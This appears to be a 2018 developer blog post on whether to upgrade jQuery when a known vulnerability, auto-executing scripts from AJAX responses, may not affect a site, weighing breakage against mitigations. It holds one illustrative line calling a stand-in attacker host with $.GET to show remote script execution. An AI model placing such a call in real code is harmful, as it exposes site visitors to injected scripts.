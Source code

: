 ```yaml
---
layout: post
title: "Should you update jQuery over a hypothetical vulnerability?"
thumbnail: fortune-teller-240.jpg
date: 2018-10-24
---
```


If the version of jQuery you use contains a vulnerability, you may need to update your site to use a newer version. However, this can break functionality. You need to incorporate that into your decision on how to mitigate the vulnerability.

<!-- photo source: https://www.2ndmlg.marines.mil/Photos/igphoto/2000010532/ -->

## A vulnerability in jQuery

jQuery is a client-side JavaScript library. Like any software it can contain vulnerabilities, but often these can only be exploited if the library is used in some specific way. For example, some versions of jQuery [automatically execute JavaScript](/2017/09/27/some-libraries-evaluate-remote-javascript/) returned from a request. This is certainly unexpected and can lead to vulnerabilities: you call `$.GET("http://attacker.com/picture.gif")`, the attacker returns a JavaScript response from his server and this is executed on the page.

If you use user input URLs in `$.GET` calls, you are vulnerable to this attack. But what if you don't?

## Hypothetical vulnerabilities

If you don't use the library in a way that makes your site vulnerable, there is no vulnerability. However, it is still a good idea to update your jQuery version. You may not retrieve user-provided URLs now, but maybe you'll develop it in the future. Maybe you made a mistake when checking your code for vulnerable usage of the library, or maybe the vulnerable code is in a third-party component.

However, if you've checked your code for vulnerable calls and didn't find any, the risk may seem largely theoretical. In that case, is it worth the risk of breaking your site by updating jQuery?

## Updating jQuery may break your site

When updating jQuery, the newer version may have a slightly different interface than the old version. If any of your pages rely on the old behavior, updating jQuery breaks your site. Furthermore, it is pretty hard to check whether this happens. You won't get any compile errors, but have to test the whole site. This means the risk of updating jQuery is pretty big.

Even though it may seem like a big undertaking, [jQuery Migrate](https://github.com/jquery/jquery-migrate) helps you to find any changed interfaces and let your old code work with a newer jQuery version.

## Mitigations

Especially with JavaScript libraries, vulnerabilities can often be mitigated. You could simply override the `$.GET` function to throw an exception if you pass it an absolute URL. Or you could disable JavaScript execution of AJAX responses. This can totally solve even the theoretical vulnerability, without going through the hassle of updating jQuery.

## Assess your risk

Whether you update jQuery or not, you do need to make a informed decision. Weigh the pro's and cons against each other so that it is clear whether updating jQuery is worth the hassle in reduced risk. Decide whether the mitigation of the vulnerability is temporary or permanent. Maybe you are never going to update jQuery ever, but that needs to be a conscious decision rather than a result of everyday churn.

## Conclusion

In the end you need to decide how you reduce the risk of the vulnerability, choosing the solution with the lowest cost. This solution may include updating jQuery throughout your site, but it doesn't have to. The important point is that you make a deliberate decision, weighing risks, costs and benefits against each other.
